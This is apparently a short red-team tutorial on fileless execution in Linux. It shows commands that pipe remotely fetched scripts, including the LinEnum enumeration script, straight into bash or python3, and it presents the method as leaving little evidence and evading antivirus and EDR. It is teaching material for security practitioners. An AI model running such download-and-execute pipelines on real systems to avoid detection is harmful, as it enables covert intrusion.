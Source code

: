 
In Linux, you can **execute scripts directly in memory** using pipes (`|`).  
This method avoids saving the file to disk, making it **stealthy** and harder to detect.

---

## **1. Fileless Execution with `curl`**

If `curl` is available, run:

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

**How it works**

- Downloads the script from the URL.
    
- Pipes it directly into `bash` for immediate execution.
    
- Leaves no file saved to disk (unless output is redirected elsewhere).
    

---

## **2. Fileless Execution with `wget`**

If `wget` is installed:

```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**What the options mean:**

- `-q` → Quiet mode (no extra messages).
    
- `-O-` → Sends file output to **stdout** instead of saving.
    
- `| python3` → Pipes the script directly into the Python interpreter.
    

**Example output:**

```
Hello World!
```

---

## **3. Why This Matters**

- **No saved files** → little to no evidence left behind.
    
- **Bypasses basic detection** → useful for red-team operations or living-off-the-land (LOLBin) tactics.
    
- **Memory-only execution** → harder for antivirus or EDR to flag.
    

---

## **Tips**

- Always test scripts in a safe environment first.
    
- Consider HTTPS for better integrity and security.
    
- For persistence or debugging, redirect the script to a file before execution:
    

```bash
wget https://example.com/script.sh -O temp.sh && bash temp.sh
```

---
